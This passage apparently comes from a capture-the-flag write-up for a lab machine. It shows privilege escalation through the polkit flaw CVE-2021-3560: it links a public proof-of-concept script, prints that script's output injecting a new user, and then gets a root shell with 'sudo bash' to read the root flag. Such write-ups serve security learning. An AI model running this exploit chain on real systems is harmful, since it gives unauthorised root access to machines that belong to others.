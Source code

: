 Getting the `sudo` version.
```
$ sudo -V
Sudo version 1.8.29
Sudoers policy plugin version 1.8.29
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.29
```

Using `linpeas.sh`, we can find that machine is vulnerable to `CVE-2021-3560` and for that we can use this POC -https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh.

```
$ sh poc.sh -u='sec' -p=sec

[!] Username set as : sec
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username sec...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username sec  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - sec
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
```

Gaining the root shell with the new credentials:
```
[dwight@paper ~]$ su - sec
Password: 
[sec@paper ~]$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for sec: 
[root@paper sec]# id
uid=0(root) gid=0(root) groups=0(root)
```

Getting the flag:
```
[root@paper sec]# cat /root/root.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
